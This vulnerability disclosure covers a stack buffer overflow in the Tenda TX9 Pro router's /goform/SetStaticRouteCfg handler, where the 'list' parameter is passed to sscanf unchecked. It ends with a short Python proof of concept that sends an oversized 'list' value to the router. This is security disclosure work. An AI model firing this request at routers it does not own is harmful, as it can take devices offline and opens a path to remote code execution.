

# Tenda TX9 Pro SetStaticRouteCfg
### Overview
vendor: Tenda

product: TX9 Pro

version: V22.03.02.10_multi

type: Buffer Overflow

### Vulnerability Description
A vulnerability has been found in Tenda TX9 Pro V22.03.02.10_multi. This vulnerability can be triggered through the route /goform/SetStaticRouteCfg. The manipulation of the argument list leads to buffer overflow. The attack is possible to be carried out remotely. The exploit has been disclosed to the public and may be used.

### Vulnerability Details
The function sub_42D334 calls the function sub_42D03C. In function sub_42D03C line 27, it reads in a user-provided parameter `list`. The variable `Var` is passed to the `sscanf` function without any length check, which may overflow the stack-based buffer `v16`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests
url = 'http://192.168.0.1/goform/SetStaticRouteCfg'
headers = {
    'Host': '192.168.0.1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
}
data = {
    'list': 'a' * 1000
}
response = requests.post(url, headers=headers, data=data)

```
